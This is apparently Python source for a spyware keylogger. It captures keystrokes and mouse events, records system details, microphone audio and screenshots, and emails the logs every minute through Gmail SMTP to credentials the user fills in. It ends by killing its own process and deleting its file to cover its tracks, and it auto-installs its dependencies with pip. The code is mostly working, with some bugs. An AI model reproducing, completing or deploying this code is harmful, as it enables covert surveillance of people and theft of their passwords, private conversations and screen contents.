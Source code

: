 # keylogger
try:     import logging     import os     import platform     import smtplib     import socket     import threading     import wave     import pyscreenshot     import sounddevice as sd     from pynput import keyboard     from pynput.keyboard import Listener except ModuleNotFoundError:     from subprocess import call     modules = ["pyscreenshot","sounddevice","pynput"]     call("pip install " + ' '.join(modules), shell=True)   finally:     EMAIL_ADDRESS = "YOUR_EMAIL"     EMAIL_PASSWORD = "YOUR_EMAIL_PASSWORD"     SEND_REPORT_EVERY = 60 # as in seconds     class KeyLogger:         def __init__(self, time_interval, email, password):             self.interval = time_interval             self.log = "KeyLogger Started..."             self.email = email             self.password = password          def appendlog(self, string):             self.log = self.log + string          def on_move(self, x, y):             current_move = logging.info("Mouse moved to {} {}".format(x, y))             self.appendlog(current_move)          def on_click(self, x, y):             current_click = logging.info("Mouse moved to {} {}".format(x, y))             self.appendlog(current_click)          def on_scroll(self, x, y):             current_scroll = logging.info("Mouse moved to {} {}".format(x, y))             self.appendlog(current_scroll)          def save_data(self, key):             try:                 current_key = str(key.char)             except AttributeError:                 if key == key.space:                     current_key = "SPACE"                 elif key == key.esc:                     current_key = "ESC"                 else:                     current_key = " " + str(key) + " "              self.appendlog(current_key)          def send_mail(self, email, password, message):             server = smtplib.SMTP(host='smtp.gmail.com', port=587)             server.starttls()             server.login(email, password)             server.sendmail(email, email, message)             server.quit()          def report(self):             self.send_mail(self.email, self.password, "\n\n" + self.log)             self.log = ""             timer = threading.Timer(self.interval, self.report)             timer.start()          def system_information(self):             hostname = socket.gethostname()             ip = socket.gethostbyname(hostname)             plat = platform.processor()             system = platform.system()             machine = platform.machine()             self.appendlog(hostname)             self.appendlog(ip)             self.appendlog(plat)             self.appendlog(system)             self.appendlog(machine)          def microphone(self):             fs = 44100             seconds = SEND_REPORT_EVERY             obj = wave.open('sound.wav', 'w')             obj.setnchannels(1)  # mono             obj.setsampwidth(2)             obj.setframerate(fs)             myrecording = sd.rec(int(seconds * fs), samplerate=fs, channels=2)             obj.writeframesraw(myrecording)             sd.wait()              self.send_mail(email=EMAIL_ADDRESS, password=EMAIL_PASSWORD, message=obj)          def screenshot(self):             img = pyscreenshot.grab()             self.send_mail(email=EMAIL_ADDRESS, password=EMAIL_PASSWORD, message=img)          def run(self):             keyboard_listener = keyboard.Listener(on_press=self.save_data)             with keyboard_listener:                 self.report()                 keyboard_listener.join()             with Listener(on_click=self.on_click, on_move=self.on_move, on_scroll=self.on_scroll) as mouse_listener:                 mouse_listener.join()             if os.name == "nt":                 try:                     pwd = os.path.abspath(os.getcwd())                     os.system("cd " + pwd)                     os.system("TASKKILL /F /IM " + os.path.basename(__file__))                     print('File was closed.')                     os.system("DEL " + os.path.basename(__file__))                 except OSError:                     print('File is close.')              else:                 try:                     pwd = os.path.abspath(os.getcwd())                     os.system("cd " + pwd)                     os.system('pkill leafpad')                     os.system("chattr -i " +  os.path.basename(__file__))                     print('File was closed.')                     os.system("rm -rf" + os.path.basename(__file__))                 except OSError:                     print('File is close.')      keylogger = KeyLogger(SEND_REPORT_EVERY, EMAIL_ADDRESS, EMAIL_PASSWORD)     keylogger.run()
